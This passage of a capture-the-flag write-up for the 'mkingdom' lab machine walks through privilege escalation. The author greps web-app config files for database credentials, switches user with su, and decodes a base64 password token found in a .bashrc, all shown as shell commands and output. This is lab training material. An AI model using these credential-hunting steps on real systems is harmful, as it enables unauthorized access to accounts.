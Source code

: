 **`toad`**’s directory seems less restricted than the **`mario`**, so I started with this user first. I simply use **`grep`** to find all the information of **`toad`** in the web app directory (user **`www-data`**’s directory):

```
www-data@mkingdom:/var/www/html/app/castle$ grep -R "toad"
application/config/generated_overrides/site.php:            'name' => 'toad',
application/config/database.php:            'username' => 'toad',
application/config/database.php:            'password' => '[REDACTED]',
```

Great! Easy one!

```
www-data@mkingdom:/var/www/html/app/castle$ su toad
Password: 
toad@mkingdom:/var/www/html/app/castle$ cd
toad@mkingdom:~$ pwd
/home/toad
```

### Privilege Escalation 2 → Mario

I kept manually enumerating the information of user **`mario`** in the **`toad`**’s directory until I found this **base64** decoded string:

```
toad@mkingdom:~$ tail .bashrc
# sources /etc/bash.bashrc).
if ! shopt -oq posix; then
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

export PWD_token='aWthVGVOVEFOdEVTCg=='
```

Decode the string and I expected it is the **`mario`**’s password:

```
toad@mkingdom:~$ echo "aWthVGVOVEFOdEVTCg==" | base64 -d
[REDACTED]
toad@mkingdom:~$ su mario
Password: 
mario@mkingdom:/home/toad$ cd
mario@mkingdom:~$ pwd
/home/mario
```

Yes it is!

In **`mario`**’s directory, I explore the **`user.txt`** which is contain the first flag of the CTF room. However, I was not able to read the file in the current directory:
